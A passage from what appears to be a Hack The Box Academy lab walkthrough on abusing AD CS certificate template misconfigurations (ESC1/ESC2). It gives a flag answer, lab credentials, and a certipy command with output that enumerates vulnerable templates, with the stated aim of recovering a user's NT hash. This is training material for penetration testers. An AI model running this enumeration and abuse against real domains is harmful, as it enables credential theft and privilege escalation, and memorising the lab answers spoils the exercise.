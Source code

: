 Answer: `HTB{ESC1_4T7ACK}`

## ESC2

### Question 1

#### "Abuse the ESC2 misconfiguration and submit Matilda's NT hash."

After spawning the target machine, students need to use `certipy` with the `find` command and the `-vulnerable` option to enumerate the ADCS CA for vulnerabilities, utilizing the credentials `blwasp@lab.local:Password123!`; students will discover that the `ESC2` template suffers from the `ESC2` misconfiguration:

Code: shell

```shell
certipy find -u blwasp@lab.local -p Password123! -dc-ip STMIP -vulnerable -stdout
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy find -u blwasp@lab.local -p Password123! -dc-ip 10.129.228.236 -vulnerable -stdout

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 41 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 18 enabled certificate templates
[*] Trying to get CA configuration for 'lab-LAB-DC-CA' via CSRA
[*] Got CA configuration for 'lab-LAB-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : lab-LAB-DC-CA
    DNS Name                            : LAB-DC.lab.local
    Certificate Subject                 : CN=lab-LAB-DC-CA, DC=lab, DC=local
    Certificate Serial Number           : 16BD1CE8853DB8B5488A16757CA7C101
    Certificate Validity Start          : 2022-03-26 00:07:46+00:00
    Certificate Validity End            : 2027-03-26 00:17:46+00:00
    Web Enrollment                      : Enabled
    User Specified SAN                  : Enabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Disabled
<SNIP>
  3
    Template Name                       : ESC2
    Display Name                        : ESC2
    Certificate Authorities             : lab-LAB-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : 16777216
                                          65536
                                          ExportableKey
    Extended Key Usage                  : Any Purpose
    Requires Manager Approval           : False
```